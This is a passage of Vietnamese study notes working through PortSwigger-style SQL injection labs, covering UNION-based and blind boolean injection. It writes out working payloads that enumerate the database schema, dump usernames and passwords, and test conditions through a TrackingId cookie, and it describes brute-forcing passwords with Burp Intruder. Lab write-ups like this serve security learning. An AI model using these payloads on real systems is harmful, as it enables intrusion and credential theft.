 To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

</aside>

- Bài này có 2 cột đều in ra
- Dùng `' UNION SELECT NULL, version()--` ⇒ CSDL Postgre
- Liệt kê tên các bảng: `' UNION SELECT table_name, NULL FROM information_schema.tables--`
- Liệt kê tên các cột của bảng: `' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users'--`
- Code full: `' UNION SELECT **username, password** FROM users--`

1. **Lab 10: retrieve multiple values in a single column**
- Bài này có 2 cột nhưng chỉ in được cột thứ 2
- Dùng Postgre
- Cách 1: chỉ in password
- Cách 2: `' UNION SELECT NULL,username||'~'||password FROM users--`

1. **Lab 11: Blind SQL injection with conditional responses**

<aside>
💡

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a `Welcome back` message in the page if the query returns any rows.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

</aside>

- Blind SQL Injection là một dạng tấn công SQL Injection mà ta không thấy trực tiếp kết quả của truy vấn SQL (như thông báo lỗi hay dữ liệu trả về). Thay vào đó, ta phải suy ra thông tin dựa trên phản hồi gián tiếp của ứng dụng, ví dụ như sự xuất hiện của một thông báo nào đó (ở đây là thông báo "Welcome back")
- Trang web này có một cookie tên là TrackingId (dùng để theo dõi người dùng). Giá trị của cookie này được đưa trực tiếp vào một truy vấn SQL mà không được kiểm tra kỹ, dẫn đến lỗ hổng SQL Injection
- Cookie TrackingId giống như một "thẻ nhận dạng" mà trang web gửi cho ta. Trang web sẽ lấy giá trị của thẻ này (ví dụ: ogAZZfxtOKUELbuJ) và đưa vào một câu lệnh SQL để kiểm tra. Nếu ta thay đổi giá trị thẻ này, ta có thể "lừa" trang web chạy câu lệnh SQL mà ta muốn
- Phân tích trang web:
****- Nếu truy vấn SQL trả về bất kỳ hàng nào (dữ liệu), trang web sẽ hiển thị thông báo "Welcome back".
- Nếu truy vấn không trả về hàng nào, thông báo "Welcome back" sẽ không xuất hiện.
⇒ Ta có thể dùng sự xuất hiện hoặc vắng mặt của "Welcome back" để đoán thông tin (giống như chơi trò đoán đúng/sai)
- Burp Intruder là một công cụ trong Burp Suite được sử dụng để tự động hóa các cuộc tấn công bằng cách gửi nhiều yêu cầu HTTP với các giá trị khác nhau (payloads) trong các vị trí được xác định trước. Trong bài lab này, ta cần dùng Burp Intruder để brute force các ký tự (a-z, 0-9) ở từng vị trí của mật khẩu để tìm giá trị đúng, dựa trên sự xuất hiện của thông báo "Welcome back" trong phản hồi
- **Bước 1: Kiểm tra lỗ hổng bằng điều kiện đúng/sai: 
Ta thêm truy vấn vào TrackingId**
`TrackingId=xyz' AND '1'='1` ⇒ "Welcome back" xuất hiện. Vì '1'='1' là đúng nên truy vấn trả về dữ liệu
`TrackingId=xyz' AND '1'='2` ⇒ "Welcome back" không xuất hiện. Vì '1'='2' là sai nên truy vấn không trả về dữ liệu
- **Bước 2: Xác nhận bảng users tồn tại:** 
`TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a`
⇒ Ta truy vấn: "Có bảng nào tên là users không? Lấy chữ 'a' từ bảng đó (chỉ lấy 1 hàng), và kiểm tra xem nó có phải là 'a' không”
⇒ Vì "Welcome back" xuất hiện, điều kiện đúng, nghĩa là bảng users tồn tại. Nếu không có bảng users, truy vấn sẽ thất bại, và "Welcome back" sẽ không xuất hiện
- **Bước 3: Xác nhận người dùng administrator tồn tại:**
`TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a`